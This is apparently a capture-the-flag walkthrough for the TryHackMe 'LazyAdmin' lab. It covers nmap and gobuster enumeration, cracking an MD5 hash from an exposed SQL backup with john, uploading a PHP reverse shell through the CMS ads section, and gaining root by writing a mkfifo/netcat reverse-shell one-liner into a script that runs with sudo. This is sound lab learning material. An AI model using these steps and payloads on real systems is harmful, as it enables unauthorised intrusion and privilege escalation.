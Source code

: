 # LazyAdmin

Have some fun! There might be multiple ways to get user access.

- What is the user flag?

	- `nmap -sV -sC <TARGET_IP>`. There are two services exposed: 22/tcp (ssh) and 1583/tcp (simbaexpress)
	- `nmap --script=vuln <TARGET_IP>`
	- ```Nmap scan report for 10.10.58.33
Host is up (0.081s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /content/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

		```
		Seems good.
	- Visit <TARGET_IP>/content/ on browser.
	- `gobuster dir -u http://<TARGET_IP>/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- ```/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
		```
		Interesting...
	- In `http://<TARGET_IP>/content/inc` there is  `mysql\_backup` folder. Download the .sql file inside.
	- Open it with or something similar. You should read a line with a passwd header and the a hashed value.
	- Use `hash-identifier` to detect the type of the hash. MD5. ok.
	- `cat <HASH_HERE> > hash.txt`
	- `sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5`
	- Go into the login page `http://<TARGET_IP>/content/as/`
	- Login with the username inside the .sql file and the cracked password.
	- Go into `Ads` section.
	- Load the `rshell.php` into the content manager (change the IP address with yours!)
	- `nc -lvnp 1234` on your machine.
	- Go into `http://<TARGET_IP>/content/inc/ads` and click on the file you've just uploaded.
	- You gained a shell. `cd /home/itguy && cat user.txt`
	- `THM{63**bce92******ad111**********07}`

- What is the root flag?

	- `sudo -l`
	- Ok. We don't need sudo password for backup.pl and perl.
	- Analyze backup.pl, it runs /etc/copy.sh. Let'see.
	- It's a reverse shell. Change the specified ip address to yours.
	- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP_HERE> 5554 >/tmp/f" > /etc/copy.sh`
	- `nc -lnvp 5554` on your machine
	- `sudo /usr/bin/perl /home/itguy/backup.pl` on target machine.
	- `cat /root/root.txt`
	- `THM{663**41d01******7cb**********99f}`
